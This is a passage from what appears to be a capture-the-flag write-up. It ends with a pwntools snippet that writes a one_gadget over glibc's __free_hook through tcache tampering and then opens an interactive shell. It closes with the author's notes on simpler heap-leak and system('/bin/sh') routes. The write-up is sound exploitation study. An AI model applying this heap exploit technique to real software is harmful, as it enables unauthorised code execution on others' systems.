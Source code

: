 ```python
hack(42, p64(freehook-16))
malloc(43, "junk", "junk2")
malloc(44, "junk", p64(0) + p64(onegadget))
p.sendlineafter(b"> ","2")
#p.sendlineafter(b"in?","43")
#free(43)
p.interactive()
```

## MISTAKES

So I saw someone else's script and immediately learned a couple of things.

1) tcache does put a value in the `bk` pointer a pointer back to the tcache struct it belongs to.  I didn't need to do funky stuff to make a heap leak at all.
2) I didn't need to overwrite `MAX_DREAMS` and make a big funky fake chunk to get a glibc leak.
3) I forgot to tell you I needed to cycle to the second onegadget, but onegadget isn't needed system("/bin/sh") is just fine using free_hook as system and writing "/bin/sh" into a chunk.

